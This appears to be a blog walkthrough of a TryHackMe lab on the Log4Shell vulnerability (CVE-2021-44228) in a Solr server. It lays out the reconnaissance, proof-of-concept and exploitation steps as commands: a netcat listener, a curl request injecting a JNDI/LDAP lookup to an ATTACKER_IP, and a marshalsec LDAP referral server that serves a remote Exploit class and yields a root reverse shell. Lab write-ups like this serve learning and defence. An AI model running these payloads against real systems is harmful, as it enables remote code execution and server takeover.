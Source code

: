 

<div>

## What's Going On?

A new exploit has just been discovered that has been causing an uproar in the
cyber security community (as well as most companies). CVE-2021-44228, or **Log4Shell**,
is an exploit that takes advantage of a vulnerability in the Log4j library by
allowing the ability of remote code execution from unauthorized users.


## Overview of Log4j

Let's back up a bit and understand the library with the catastrophic vulnerability: **Log4j**.
The Log4j library is a logging tool for Java that utilizes Java Naming and Director Interface (JDNI) and
Lightweight Directory Access Protocol (LDAP) protocols. JNDI is the protocol that retrieves data
from a remote server and LDAP is the protocol used for communication to a server such as a database.

By using a JNDI lookup to the LDAP server, it was possible to return an object containing code that can be executed
on the victim's server. That means something like a reverse shell can be performed to gain complete control over the
server. That's it... a simple injection attack that was powerful enough to cause chaos and rated the one of the most dangerous
vulnerabilities ever discovered.

## TryHackMe Demo

To get an idea of how easy this exploit is to perform, we can look at a lab that demonstrates the
attack. I follow along John Hammond's TryHackMe room and encourage everyone to try it out themselves,
but I'll still go through it if you're feeling lazy.

### Reconnaissance

After reading the introduction, we go into reconnaissance which is a fancy word for gathering information.
To begin, we must understand what ports are open on this machine by using **nmap**. We are looking for a service running
on port 8983 which can be found using the following command:

```
$ nmap -sV -p8983 [MACHINE_IP]
```

### Discovery

This section wants us to explore the url and log files that have been given to us, so let's take a
look. When clicking on the link, we open a very minimal web interface that clearly shows log4j is used.
The first question asks for the argument that -Dsolr.log.dir is set to which is seen on the front
page as **/var/solr/logs**.

The next three questions involve us looking at the task files which are logs. Download the given files
and we quickly see one file has a significantly higher number of INFO entries than the
others: **solr.log**. Among these requests, we see a path to **/admin/cores** and **params**={} which can
be an entrypoint where a user could control.

### Proof of Concept

There's a great explanation in this section of the syntax and where the vulnerability can be exploited.
By performing a JNDI lookup with external resources (i.e. untrusted data), the LDAP server retrieves
the lookup and allows the attacker to execute remote code.

Afterwards, the tasks want us to test for vulnerabilities in the system. Use either of
the following commands to view our own attacking machine IP address.
```
$ ip addr show
```
```
$ ifconfig
```
For those unfamiliar with interface configuration (ifconfig), we just need to check
our VPN interface which is labeled tun0. The specific address we need is inet which
will be needed to make our request later (ATTACKER_IP).

Now prepare our netcat listener on port 9999 with the following command:
```
$ nc -lnvp 9999
```
In a separate terminal, we can make a request with curl with the following command (replace
the necessary parts being the machine IP and attacker IP):
```
$ curl 'http://(MACHINE_IP):8983/solr/admin/cores?foo=$\{jndi:ldap://(ATTACKER_IP):9999\}'
```
Netcat should catch the connection and produce some weird symbols. We have verified a connection and
can move onto the next section.

### Exploitation

The part we've all been waiting for... the exploit itself. This section begins by explaining
how the JNDI and LDAP protocols work together to retrieve a lookup resource. An HTTP server will
host our malicious file where the LDAP server will retrieve and execute (which can easily be set up using
python3). This part can get a little messy, so I've organized steps into what we need to do.

1. We will need Java 8 installed (specifically 1.8.0_181) which is relatively straightforward in the
description. Verify with `java -version`.
2. `git clone https://github.com/mbechler/marshalsec`
3. `sudo apt install maven`
4. ~/marshalsec $ `mvn clean package -DskipTests`
5. Copy and paste the Java exploit code and name it Exploit.java. Compile with `javac Exploit.java`

We have finished the prerequisites and can begin the exploit. I used 4 terminals for
the HTTP server, our netcat listener, LDAP server startup (marshalsec), and curl command to trigger the
exploit. Here are the steps I took:

1. Start LDAP server: ~/marshalsec
$ `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(ATTACKER_IP):8000/#Exploit"`
2. Start the HTTP server with `python3 -m http.server` and make sure we're in the same directory with `Exploit.*`
3. Prepare a netcat listener to catch the reverse shell with `nc -lnvp 9999`
4. Finally, execute `curl 'http://10.10.183.116:8983/solr/admin/cores?foo=$\{jndi:ldap://(ATTACKER_IP):1389/Exploit\}'`

Type "whoami" in the netcat listener and we see that we have root access to the machine now.
All we did was trick the LDAP server to request a JNDI lookup to retrieve our malicious code which made me understand
how dangerously easy this exploit can be executed. 

## Conclusion

**Log4Shell** caused so much havoc not only due to its abundant presence across many companies,
but how easily an adversary can utilize such an attack. A list of some of the
more popular companies can be found <a href="https://github.com/YfryTchsGD/Log4jAttackSurface">here</a>.
The vulnerability was found in Minecraft that demonstrates the attack very well, so be sure to check out those videos.
There was also an interesting article discussing how workers were punished for not reporting the vulnerability to their
government first that you should check out. These links can be found down below in the references.

## References

* <a href="https://tryhackme.com/room/solar"> John Hammond's TryHackMe Lab </a>
* <a href="https://www.youtube.com/watch?v=aJteDOavUFk"> Minecraft Log4Shell Exploit </a>
* <a href="https://www.youtube.com/watch?v=7qoPDq41xhQ"> John Hammond's Minecraft Video </a>
* <a href="https://www.scmp.com/tech/big-tech/article/3160670/apache-Log4j-bug-chinas-industry-ministry-pulls-support-alibaba-cloud"> Apache Log4j bug: China’s industry ministry pulls support from Alibaba Cloud for not reporting flaw to government first  </a>

</div>